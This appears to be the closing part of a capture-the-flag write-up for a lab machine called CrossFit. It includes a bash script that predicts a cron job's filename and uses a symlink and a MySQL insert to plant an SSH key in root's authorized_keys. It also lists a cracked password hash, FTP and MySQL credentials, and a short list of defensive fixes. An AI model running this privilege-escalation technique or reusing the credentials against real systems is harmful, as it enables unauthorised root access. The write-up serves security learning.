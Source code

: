 This code will return the current timestamp and also the next timestamp that is the random number than will be used by the program to create its file when the next cronjob starts.SO we have basically 1 minute to do all the arrangements.Because of which script was created to automate this.

```bash
#!/bin/bash
id=1
name="ssh-ed25519"
email="root@bhosa"
message="AAAAC3NzaC1lZDI1NTE5AAAAIK/FLoEjFzZJo8SonMKVgF1N0eOlQx/YQtDiglNlpDEg"

rand=$(/dev/shm/simple_rand)
echo "Next Cronjob Timestamp: ${rand}"

filename=$(echo -n "${rand}${id}" | md5sum | awk '{print $1}')
echo "FILENAME: ${filename}" 
ln -s /root/.ssh/authorized_keys ${filename}
echo "[+]CREATED A SYMLINK"
echo "[+]ENTERING THE SSH PUB KEY IN DATABASE(crossfit,messages)"
echo "[+]INFO:(id,name,email,message)--->(${id},${name},${email},${message})"
mysql -u crossfit -p oeLoo~y2baeni crossfit -e "insert into messages(id, name, email, message) values ($id, '$name', '$email', '$message')"
sec=$((60 - $(date +%-S)))
while [ $sec -ne 59 ];do
	echo -en "\r[*]SECONDS LEFT UNTIL NEXT CRON: ${sec}"
	sleep 1
	sec=$((60 - $(date +%-S)))
done
echo "[+]NOW TRY TO SSH AS ROOT"
```


# CREDENTIALS
```bash
$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG:powerpuffgirls
```
ftp:ftpadm:8W)}gpRJvAmnb
mysql:crossfit:oeLoo~y2baeni

# DEFENSE
1. The first exploit was xss in the report sent to admin.
->SOLUTION WOULD BE TO SANITIZE AND FILTER THE REPORT THAT IS SENT TO THE ADMIN .
2. The second exploit CORS WEAKNESS.
-> Cant do much as it was only used to find  a sub-domain.
3. The third exploit that lead to rfi and rce was development-test subdomain accepting files via lftp.
-> MAKE SURE THAT PERMISIION IS DENIED FOR OTHER USERS TO UPLOAD TO FTP.
4. Hardcoded password of hank in ansible.
-> MAKE SURE THAT PASSWORDS ARE STRONG.
5. Outdated php module
-> UPDATE TO THE LATEST VERSION OF THE MODULE.
-> ALSO MAKE SURE THAT DB PASSWORDS ARE NOT HARDCODED.
6. DBMSG BEING BADLY CODED.
->IT NEEDS TO STRIPPED.
->IT NEEDS TO FIND A DIFFERENT SEED AS TIME IS EASILY PREDICTABLE IF CRON RUNS IT EVERY MINUTE.
